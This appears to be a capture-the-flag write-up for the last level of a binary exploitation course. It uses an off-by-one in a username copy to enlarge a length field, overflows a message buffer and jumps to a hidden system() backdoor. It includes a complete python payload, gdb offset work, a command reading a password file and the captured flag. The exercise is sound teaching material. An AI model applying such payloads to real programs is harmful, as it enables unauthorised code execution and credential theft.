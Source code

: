 ## LEVEL 09
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level09.asm) and the [source file](./src/level09.c). This README only contains the most important parts to solve the level.
---
### Security
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
```
For this bonus level, NX is enabled. This means that we can't execute external code but the stack canary is disabled. And PIE is enabled, so the addresses of the functions are hidden.
---

Wow, this is the last level of the project and of this security branch. Before celebrating the end of the project, we need to solve this final level.

This level is slightly different from the previous ones. Firstly, the code is in x86_64 architecture instead of x86_32. Since we have already encountered three executables in the same architecture throughout this project, this shouldn't be a big issue. We just need to adjust the register names and the way arguments are stored.

The second difference is that this level has Position-Independent Executable (PIE) enabled. This means that the addresses of functions are hidden before running the program. However, we are fortunate that the addresses of the functions remain the same because the stack canary is disabled. Therefore, we just need to run the program once to obtain the addresses. To set a breakpoint, we will need to use the following syntax:
```
(gdb) b* main+0x1a
```
Since the address is not defined before running the program, we'll need to search for a solution to solve this level.

The first thing I noticed in the code is the presence of a function called `secret_backdoor`. Although this function is never called in the code, it's evident that we have to call it to obtain the flag, as it invokes `system()`. Therefore, let's find a way to call this function.

If we need to call this function, it implies that we have to overwrite a pointer to execute it. The first idea that comes to mind is to overwrite the return address of the `main()` function, just as we did in many previous levels.

But how can we achieve this? To answer that question, we'll need to delve deeper into the code and find a way to overflow the memory.

```c
typedef struct s_struct
{
    char msg[0x8c]; // 0x0
    char username[0x28]; // 0x8c
    int len; // 0xb4
} t_struct; // len = 0xc0
```

This is the structure used in `handle_msg` and this is our gate to overflow the memory.

```c
void set_msg (t_struct *msg)
{
    char buffer[0x400];
[...]
    fgets(buffer, 0x400, stdin);
    strncpy(msg->msg, buffer, msg->len);
}

void set_username (t_struct *msg)
{
    char buffer[0x80];
[...]
    int32_t _rbp = 0;
    while(_rbp <= 0x28 && buffer[_rbp] != 0)
    {
        msg->username[_rbp] = buffer[_rbp];
        _rbp++;
    }
[...]
}
```

These two functions seem to hold the answer to our question. The `set_msg` function has a buffer of 0x400 bytes, which is sufficient to overflow the memory. However, the value of `msg->len` limits the number of bytes we can copy into the structure. To achieve memory overflow, we need to set `msg->len` to a larger value.

To accomplish this, we can utilize the `set_username` function. This function has a small vulnerability: it copies one byte more than the size of the `username` value. Consequently, it overwrites a byte of the `len` variable. This is perfect for our purposes!

Therefore, our inputs should look like this:
```
First input : padding(40) + "int8_max"
Second input : padding(EIP offset) + "address of secret_backdoor"
```

Perfect so two variables are missing, the padding and the address of `secret_backdoor`. Let's start by finding the `secret_backdoor` address.

```shell
(gdb) i func
[...]
0x000055555555488c  secret_backdoor
[...]
```

Now we need to find the padding. Notice that the padding is different from x86_32 because the registers are bigger. For example the return address is stored in $ebp+8 instead of $ebp+4.

```shell
(gdb) x/a $rbp+8
0x7fffffffe568:	0x555555554abd <main+21>
(gdb) x/a $rbp-0xc0
0x7fffffffe4a0:	0xa
(gdb) p 0x7fffffffe568 - 0x7fffffffe4a0
$1 = 200
```

So the padding is 200 bytes. Now we have all the information we need to solve the level.

Please note that at the end of the payload, I will add "/bin/sh". This is because the `secret_backdoor` function calls `system(buffer)`, and this buffer is a user input.

```shell
$ (python -c 'print "\x90"*40+"\xff"; print "\x90"*200+"\x8c\x48\x55\x55\x55\x55\x00\x00"; print "/bin/sh"'; cat -) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, �����������������������������������������>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

Perfect ! We got the flag ! This is the end of this project.

